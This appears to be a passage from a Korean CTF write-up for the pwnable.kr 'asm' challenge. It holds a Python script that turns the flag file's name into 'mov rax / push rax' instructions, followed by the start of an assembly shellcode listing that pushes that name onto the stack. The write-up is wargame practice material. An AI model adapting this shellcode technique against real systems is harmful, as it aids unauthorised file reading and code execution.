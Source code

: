 ```python
a = "this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong".encode("hex")
b=[]
c=[]
for i in range(0,len(a)/2+1):
    b.append(a[i*2:i*2+2])
    #b[i] = "\\x"+b[i]
    
b.reverse()
#print(b)

for j in range(0,len(b)/8):
    c.append(b[j*8]+b[j*8+1]+b[j*8+2]+b[j*8+3]+b[j*8+4]+b[j*8+5]+b[j*8+6]+b[j*8+7])
h=0
for k in c:
    print "mov rax, 0x"+k
    print "push rax"
   ```
이 파이썬을 돌리면 우리는 넣을 수 있는 코드를 만들 수 있다.

```assembly
section .data
section .bss
buf: resb 4
section .text

global _start

_start:
	push rbp
	mov rbp, rsp
	mov rax, 0x676e6f306f306f30
	push rax
	mov rax, 0x6f306f306f306f30
	push rax
	mov rax, 0x3030303030303030
	push rax
	mov rax, 0x3030306f6f6f6f6f
	push rax
	mov rax, 0x6f6f6f6f6f6f6f6f
	push rax
	mov rax, 0x6f6f6f6f6f6f6f6f
	push rax
	mov rax, 0x6f6f303030303030
	push rax
	mov rax, 0x3030303030303030
	push rax
	mov rax, 0x3030303030303030
	push rax
	mov rax, 0x3030306f6f6f6f6f
	push rax
	mov rax, 0x6f6f6f6f6f6f6f6f
	push rax
	mov rax, 0x6f6f6f6f6f6f6f6f
	push rax
	mov rax, 0x6f6f6f6f6f6f6f6f
	push rax
	mov rax, 0x6f6f6f6f6f6f6f6f
	push rax
	mov rax, 0x6f6f6f6f6f6f6f6f
	push rax
	mov rax, 0x6f6f6f6f6f6f6f6f
	push rax
```